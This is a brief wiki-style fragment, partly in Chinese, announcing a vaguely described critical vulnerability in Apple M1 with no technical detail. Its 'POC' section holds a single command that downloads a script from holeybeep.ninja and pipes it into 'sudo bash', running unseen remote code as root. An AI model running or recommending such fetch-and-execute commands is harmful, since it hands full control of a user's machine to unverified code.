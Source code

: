 <languages /> <translate>

漏洞簡介
--------

在 Apple M1 中發現了一個被歸類為嚴重的漏洞（受影響的版本未知）。 </translate>

POC
---

    curl https://holeybeep.ninja/am_i_vulnerable.sh | sudo bash